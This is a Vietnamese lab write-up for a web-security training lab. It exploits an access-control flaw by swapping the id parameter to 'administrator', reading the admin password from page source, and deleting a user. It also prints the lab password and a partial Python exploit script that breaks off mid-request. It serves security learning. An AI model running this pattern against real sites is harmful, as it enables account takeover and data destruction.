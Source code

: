 ### Phân tích

<li> đề bài cho biết trang cá nhân của người dùng trực tiếp chứa mật khẩu hiện tại ở dạng ẩn. Chúng ta cần khai thác lỗ hổng kiếm soát truy cập, thu thập mật khẩu tài khoản administrator và thực hiện xóa tài khoản người dùng carlos. Lab cung cấp một tài khoản hợp lệ là wiener:peter.</li>

<li> Những giá trị id thực sự nguy hiểm nếu để người dùng có thể đoán được quy tắc định nghĩa của nó. Và nếu trong các giá trị được kẻ tấn công thay đổi, chứa giá trị id thuộc người dùng có vai trò quản trị, hoặc chứa những thông tin nhạy cảm có thể được lợi dụng, thì cuộc tấn công này có thể leo thang thành truy cập kiểm soát theo chiều dọc! Kẻ tấn công lập tức có thêm rất nhiều quyền hạn, càng làm tăng độ sức ảnh hưởng của dạng lỗ hổng này.</li>

<li>Đăng nhập với tài khoản wiener:pater, click vào tùy chọn My account, chúng ta được đưa tới trang cá nhân người dùng, trong đó chức năng đổi mật khẩu chứa mật khẩu người dùng ở dạng ẩn.</li>

![image](https://hackmd.io/_uploads/HJb6hinYp.png)

tuy nhiên xem nguồn trang Ctrl + U chúng ta có thể thấy được giá trị này

![image](https://hackmd.io/_uploads/ryJdasnK6.png)

### Khai thác

![image](https://hackmd.io/_uploads/Hk6epjht6.png)

rong URL chứa tham số id=wiener. id mang giá trị là username của người dùng. Khi truyền lên hệ thống sẽ trả về giao diện hồ sơ tương ứng với giá trị tham số id. Thay đổi giá trị id=administrator trong URL và truyền lên hệ thống, kết quả hiển thị trang cá nhân của administrator và chúng ta thu được mật khẩu tài khoản admin là `dvuj8qgcbs0y7co6lk67`

![image](https://hackmd.io/_uploads/B1zZRi3Ka.png)

<li>mình Đăng nhập với tài khoản administrator:dvuj8qgcbs0y7co6lk67 và thực hiện xóa tài khoản carlos.</li>

![image](https://hackmd.io/_uploads/BJgK0j2YT.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a9a008e0499f4248248cff9004d0063.web-security-academy.net'

data = {
    'username': 'wiener',
    'password': "peter",
}

response = requests.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False
)

params = {
    'id': 'administrator',
}

response = requests.get(
```
